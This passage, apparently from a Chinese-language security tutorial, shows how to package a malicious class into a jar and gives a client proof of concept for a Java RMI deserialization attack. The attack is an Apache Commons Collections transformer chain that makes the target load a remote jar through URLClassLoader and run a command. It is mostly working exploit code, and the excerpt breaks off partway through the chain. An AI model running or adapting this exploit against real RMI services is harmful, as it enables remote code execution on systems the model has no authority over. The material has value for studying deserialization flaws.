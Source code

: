 通过如下命令制作成jar包：

BASH

```
javac ErrorBaseExec.java
jar -cvf RMIexploit.jar ErrorBaseExec.class
```

客户端POC：

JAVA

```
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
 
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
 
import java.net.URLClassLoader;
 
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
 
import java.util.HashMap;
import java.util.Map;
 
 
public class Client {
    public static Constructor<?> getFirstCtor(final String name)
            throws Exception {
        final Constructor<?> ctor = Class.forName(name).getDeclaredConstructors()[0];
        ctor.setAccessible(true);
 
        return ctor;
    }
 
    public static void main(String[] args) throws Exception {
        String ip = "127.0.0.1"; //注册中心ip
        int port = 1099; //注册中心端口
        String remotejar = 远程jar;
        String command = "whoami";
        final String ANN_INV_HANDLER_CLASS = "sun.reflect.annotation.AnnotationInvocationHandler";
 
        try {
            final Transformer[] transformers = new Transformer[] {
                    new ConstantTransformer(java.net.URLClassLoader.class),
                    new InvokerTransformer("getConstructor",
                            new Class[] { Class[].class },
                            new Object[] { new Class[] { java.net.URL[].class } }),
                    new InvokerTransformer("newInstance",
                            new Class[] { Object[].class },
                            new Object[] {
                                    new Object[] {
                                            new java.net.URL[] { new java.net.URL(remotejar) }
                                    }
                            }),
                    new InvokerTransformer("loadClass",
                            new Class[] { String.class },
```